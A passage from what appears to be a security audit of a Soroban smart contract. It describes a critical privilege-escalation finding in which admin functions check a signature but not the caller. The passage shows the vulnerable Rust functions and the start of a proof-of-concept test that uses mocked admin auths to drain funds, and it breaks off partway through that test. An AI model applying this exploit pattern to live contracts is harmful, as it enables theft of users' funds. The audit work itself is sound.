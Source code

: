 **Result:** Mass attack test PASSES, demonstrating scalable exploitation.

### 8. Privilege Escalation Attack Vulnerability

**Severity:** CRITICAL  
**CVE:** CVE-2025-XXXX-007  
**CVSS Score:** 10.0 (Critical)

#### Description
The combination of authorization bypass vulnerabilities in admin functions enables complete privilege escalation attacks. Attackers can exploit `approve_verification` and `distribute_rewards` functions to gain admin-like privileges and drain funds to multiple addresses they control.

#### Impact
- **Complete System Compromise**: Attacker gains admin-like powers
- **Multi-Address Fund Drainage**: Funds distributed across multiple attacker-controlled addresses
- **Verification Bypass**: Attacker can verify any address they control
- **Privilege Escalation**: Attacker escalates from regular user to admin-level privileges
- **Scalable Exploitation**: Attack can be repeated with more addresses

#### Root Cause
Multiple admin functions suffer from the same authorization bypass vulnerability, allowing attackers to chain exploits for privilege escalation.

#### Affected Functions
```rust
// In admin.rs - VULNERABLE
fn approve_verification(env: Env, user: Address) -> Result<(), Error> {
    AdminModule::verify_admin(&env)?; // Only checks signature, not caller identity
    // Attacker can verify any address
}

// In rewards.rs - VULNERABLE  
fn distribute_rewards(env: Env, user: Address, amount: i128) -> Result<(), Error> {
    AdminModule::verify_admin(&env)?; // Only checks signature, not caller identity
    // Attacker can distribute funds to any address
}
```

#### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_admin_function_exploitation_privilege_escalation() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create attacker and their other addresses
    let attacker = Address::generate(&env);
    let attacker_address1 = Address::generate(&env);
    let attacker_address2 = Address::generate(&env);

    // Register attacker and their addresses
    contract.register_with_referral(&attacker, &admin, &String::from_str(&env, "proof123"));
    contract.register_with_referral(&attacker_address1, &admin, &String::from_str(&env, "proof124"));
    contract.register_with_referral(&attacker_address2, &admin, &String::from_str(&env, "proof125"));

    // STEP 1: Attacker exploits admin functions to verify themselves
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin, // Admin signature
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
```
